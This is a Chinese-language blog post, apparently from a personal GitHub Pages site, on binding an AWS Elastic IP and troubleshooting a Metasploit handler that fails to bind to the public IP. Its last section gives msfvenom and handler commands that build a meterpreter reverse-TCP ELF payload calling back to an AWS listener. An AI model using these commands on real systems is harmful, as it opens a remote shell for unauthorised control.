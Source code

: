```yaml
---
title: AWS亚马逊云服务器使用（二）
categories:
- tools
tags:
- tools
---
```


上一篇：[AWS亚马逊云服务器搭建与使用](https://whale3070.github.io/tools/2019/08/31/10-x/)

## 绑定弹性IP

参考资料：[https://docs.aws.amazon.com/zh_cn/AWSEC2/latest/UserGuide/elastic-ip-addresses-eip.html](https://docs.aws.amazon.com/zh_cn/AWSEC2/latest/UserGuide/elastic-ip-addresses-eip.html)

`弹性IP`是aws的一个特性，它可以分配给A实例，当你不想要A实例的时候，又可以分配给B实例。于是IP是不变的，但是IP对应的机器却变了。这样比较方便，使用者完全感受不到底层的变化。

当我们把`弹性IP`和`实例`关联以后，就不用担心IP会变化了。如果不使用`弹性IP`，实例重启后，分配的IP可能会改变。

---
`ifconfig`，只有两个网卡，一个内网地址、一个本地环回地址。没有外网IP。

亚马逊云服务器外网IP与内网IP之间是通过一对一的NAT实现的，内网Ip配置在网卡上，外网Ip配置在网关上。如有需要绑定IP的场景，直接绑定内网IP即可，可以转发到外网IP上

![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/09-13-12/1.PNG)

第一步：
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/09-13-12/2.PNG)

![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/09-13-12/3.PNG)

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/09-13-12/5.PNG)

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/09-13-12/6.PNG)

## msf绑定外网ip失败

当在aws上部署msf的时候，监听外网IP，却提示`Handler failed to bind to 本地外网IP`

![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/09-13-12/7.PNG)

于是测试一下，msf监听，反弹shell是否能反弹成功。

aws监听：

```
handler -H aws外网IP -P 6678 -p linux/x86/meterpreter/reverse_tcp
```
目标机器：执行payload.elf
```
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=aws外网IP LPORT=6678 -f elf -o payload.elf

./payload.elf
```
aws确实是可以反弹成功的。

所以handler绑定失败是正常的，提示在0.0.0.0监听，意思是监听所有网卡的该端口。
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/09-13-12/7.PNG)

